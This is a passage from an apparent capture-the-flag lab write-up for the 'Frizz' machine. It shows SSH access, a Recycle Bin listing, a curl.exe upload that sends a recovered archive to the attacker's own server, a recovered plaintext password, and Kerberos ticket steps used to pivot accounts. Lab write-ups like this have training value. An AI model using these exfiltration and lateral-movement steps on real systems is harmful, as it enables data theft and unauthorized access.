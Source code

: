 ```

ssh f.frizzle@10.10.11.60

This work for me
```

Then we can get the shell as `f.frizzle`
By enumerating the file system of this machine, we can find something interesting from the `Recycle Bin`
```
PS C:\$RECYCLE.BIN> Get-ChildItem -Recurse -Force

    Directory: C:\$RECYCLE.BIN

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d--hs          10/29/2024  7:31 AM                S-1-5-21-2386970044-1145388522-2932701813-1103

    Directory: C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a---          10/29/2024  7:31 AM            148 $IE2XMEG.7z
-a---          10/24/2024  9:16 PM       30416987 $RE2XMEG.7z
-a-hs          10/29/2024  7:31 AM            129 desktop.ini

```

There is 2 zip file here, we need to download them into our machine.
Because of I use the ssh shell, not the evil-winrm shell, so I need to upload the zip files into my local machine.
```
Copy-Item -Path "C:\`$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103\`$IE2XMEG.7z" -Destination "C:\Users\f.frizzle"

curl.exe -F "files=@C:\Users\f.frizzle\`$IE2XMEG.7z" http://10.10.16.3:8080/upload

in the local machine
python3 -m uploadserver 8080
```

Then  we can successfully get the password of `"M.SchoolBus" : '!suBcig@MehTed!R' `
Let's continue to do what we have done for ssh before
```
sudo ntpdate 10.10.11.60

getTGT.py frizz.htb/M.SchoolBus

export KRB5CCNAME=M.SchoolBus.ccache

ssh M.SchoolBus@10.10.11.60
```
